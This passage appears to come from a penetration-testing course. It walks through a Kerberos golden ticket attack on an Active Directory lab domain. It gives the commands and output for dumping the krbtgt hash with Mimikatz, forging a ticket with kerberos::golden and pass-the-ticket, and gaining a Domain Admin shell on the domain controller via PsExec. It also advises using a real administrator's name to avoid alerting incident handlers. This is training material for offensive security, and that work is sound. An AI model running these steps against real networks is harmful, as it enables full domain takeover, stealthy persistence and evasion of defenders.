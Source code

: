 Going back to the explanation of Kerberos authentication, we recall that when a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain. This secret key is actually the password hash of a domain user account called _krbtgt_.

If we are able to get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, or _golden tickets_.

For example, we could create a TGT stating that a non-privileged user is actually a member of the Domain Admins group, and the domain controller will trust it since it is correctly encrypted.

We must carefully protect stolen krbtgt password hashes since it grants unlimited domain access. Consider obtaining the client's permission before executing this technique.

This provides a neat way of keeping persistence in an Active Directory environment, but the best advantage is that the krbtgt account password is not automatically changed.

In fact, this password is only changed when the domain functional level is upgraded from Windows 2003 to Windows 2008. Because of this, it is not uncommon to find very old krbtgt password hashes.

The _Domain Functional Level_ dictates the capabilities of the domain and determines which Windows operating systems can be run on the domain controller. Higher functional levels enable additional features, functionality, and security mitigations.

To test this persistence technique, we will first attempt to laterally move from the Windows 10 workstation to the domain controller via PsExec as the Offsec user.

This should fail as we do not have the proper permissions:

```
C:\Tools\active_directory> psexec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access dc01:
Access is denied.
```

At this stage of the engagement, we should have access to an account that is a member of the Domain Admins group or we have compromised the domain controller itself.

With this kind of access, we can extract the password hash of the krbtgt account with Mimikatz. 

To simulate this, we'll log in to the domain controller via remote desktop using the jeff_admin account, run Mimikatz from the C:\\Tools folder, and issue the lsadump::lsa command as displayed below:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1602875587-2787523311-2599479668

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : e2b475c11da2a0748290d87aa966c327

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 75b60230a2394a812000dbfad8415965
...
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. We'll take the hash and continue the procedure from a compromised workstation.

Before generating the golden ticket, we'll delete any existing Kerberos tickets with kerberos::purge.

We'll supply the domain SID (which we can gather with whoami /user) to the Mimikatz kerberos::golden command to create the golden ticket. This time we'll use the /krbtgt option instead of /rc4 to indicate we are supplying the password hash. We will set the golden ticket's username to fakeuser. This is allowed because the domain controller trusts anything correctly encrypted by the krbtgt password hash.

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
User      : fakeuser
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: 75b60230a2394a812000dbfad8415965 - rc4_hmac_nt
Lifetime  : 14/02/2018 15.08.48 ; 12/02/2028 15.08.48 ; 12/02/2028 15.08.48
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'fakeuser @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 012E3A24
```

Mimikatz provides two sets of default values when using the golden ticket option, namely the user ID and the groups ID. The user ID is set to 500 by default, which is the RID of the built-in administrator for the domain, while the values for the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group.

With the golden ticket injected into memory, we can launch a new command prompt with misc::cmd and again attempt lateral movement with PsExec.

```
C:\Users\offsec.corp> psexec.exe \\dc01 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7959:aaad:eec:3969%2
   IPv4 Address. . . . . . . . . . . : 192.168.1.110
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.1.1
...

C:\Windows\system32> whoami
corp\fakeuser

C:\Windows\system32> whoami /groups

GROUP INFORMATION
-----------------

Group Name                        Type             Attributes   
================================== ================ ==================================
Everyone                          Well-known group Mandatory group, Enabled by default
BUILTIN\Administrators            Alias            Mandatory group, Enabled by default
BUILTIN\Users                     Alias            Mandatory group, Enabled by default
...
NT AUTHORITY\Authenticated Users  Well-known group Mandatory group, Enabled by default
NT AUTHORITY\This Organization    Well-known group Mandatory group, Enabled by default
CORP\Domain Admins                Group            Mandatory group, Enabled by default
CORP\Group Policy Creator Owners  Group            Mandatory group, Enabled by default
CORP\Schema Admins                Group            Mandatory group, Enabled by default
CORP\Enterprise Admins            Group            Mandatory group, Enabled by default
...
Mandatory Label\High Mandatory Level  Label                          
```

We have an interactive command prompt on the domain controller and notice that the whoami command reports us to be the user fakeuser, which does not exist in the domain. Listing group memberships shows that we are a member of multiple powerful groups including the Domain Admins group. Excellent.

The use of a non-existent username may alert incident handlers if they are reviewing access logs. In order to reduce suspicion, consider using the name and ID of an existing system administrator.

Note that by creating our own TGT and then using PsExec, we are performing the _overpass the hash_ attack by leveraging Kerberos authentication. If we were to connect using PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked as the next listing shows.

```
C:\Users\Offsec.corp> psexec.exe \\192.168.1.110 cmd.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.1.110:
Access is denied.
```
